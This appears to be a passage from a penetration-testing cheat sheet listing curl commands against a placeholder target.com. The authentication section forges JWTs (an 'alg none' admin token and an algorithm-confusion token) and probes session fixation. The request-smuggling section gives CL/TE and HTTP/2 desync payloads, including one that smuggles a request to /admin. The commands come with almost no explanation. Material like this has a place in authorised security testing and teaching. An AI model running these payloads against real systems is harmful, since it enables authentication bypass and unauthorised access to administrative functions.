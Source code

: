 ## Advanced Authentication & Session Testing

```bash
# Test for JWT vulnerabilities
curl -H "Authorization: Bearer eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ." https://target.com/api

# Test for OAuth token leakage
curl -H "Authorization: Bearer" https://target.com/api

# Test for JWT algorithm confusion
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.1B5SgM5HnN7k4t8vQyZz9w" https://target.com/api

# Test for session fixation
curl -c cookie.txt -b "PHPSESSID=injected_session" https://target.com/login

# Test for session timeout
curl -b "session=valid_session_id; Max-Age=31536000" https://target.com/profile

# Test for session regeneration
curl -b "session=old_session_id" -c new_cookies.txt https://target.com/login
```

## Advanced Request Smuggling & Desync

```bash
# Test for CL.0 request smuggling
curl -X POST \
     -H "Content-Length: 6" \
     -H "Transfer-Encoding: chunked" \
     -d "0\r\n\r\nX" \
     https://target.com

# Test for TE.CL request smuggling
curl -X POST \
     -H "Transfer-Encoding: chunked" \
     -H "Content-Length: 3" \
     -d "8\r\nSMUGGLED\r\n0\r\n\r\n" \
     https://target.com

# Test for HTTP/2 Request Smuggling
curl --http2 \
     -H ":method: POST" \
     -H ":path: /" \
     -H ":authority: target.com" \
     -H "content-length: 0" \
     -H "transfer-encoding: chunked" \
     -d "0\r\n\r\nGET /admin HTTP/1.1\r\nHost: target.com\r\n\r\n" \
     https://target.com
```
